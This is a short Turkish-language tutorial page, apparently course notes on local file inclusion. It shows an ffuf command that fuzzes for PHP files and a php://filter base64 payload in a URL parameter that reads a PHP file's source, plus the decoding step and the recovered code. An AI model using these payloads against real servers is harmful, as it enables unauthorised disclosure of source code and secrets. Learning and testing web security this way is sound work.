 ```yaml
---
icon: material/circle-small
---
```


# PHP Filters

## Fuzzing for PHP Files

```bash
ffuf -ic -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://SERVER_IP_ADDRESS:PORT/FUZZ.php
```

```text title="Output"

...SNIP...

index                   [Status: 200, Size: 2652, Words: 690, Lines: 64]
config                  [Status: 302, Size: 0, Words: 1, Lines: 1]
```

!!! info "200"

    LFI uygulamasında 200 OK dışındaki yanıt kodlarını da (301, 302, 403, vs.) hesaba katmalıyız.

## Source Code Disclosure

Fuzzing sonrası elde edilen örnek bir PHP dosyasına (`config`) LFI saldırısı uygulamak için [PHP Base64 Conversion Filter](https://www.php.net/manual/en/filters.convert.php) kullanabiliriz:

* [x] Örneğin URL şu şekilde gözükebilir: [http://SERVER_IP_ADDRESS:PORT/index.php?language=php://filter/read=convert.base64-encode/resource=config](http://SERVER_IP_ADDRESS:PORT/index.php?language=php://filter/read=convert.base64-encode/resource=config)

!!! info "Extension"

    URL sonunda bulunan ifadenin (`config`) ardına bilinçli olarak dosya uzantısı (`.php`) eklenmemiştir. Uzantının, sunucu tarafında otomatik olarak ekleneceği varsayılmıştır.

Kaynak kodu elde etmek için Base64 kodu çözülmelidir (tüm Base64 dizesini kopyalamak için sayfa kaynağı görüntülenebilir):

```bash
echo 'PD9waHAK...SNIP...KICB9Ciov' | base64 -d
```

```php title="Output"
...SNIP...

if ($_SERVER['REQUEST_METHOD'] == 'GET' && realpath(__FILE__) == realpath($_SERVER['SCRIPT_FILENAME'])) {
  header('HTTP/1.0 403 Forbidden', TRUE, 403);
  die(header('location: /index.php'));
}

...SNIP...
```
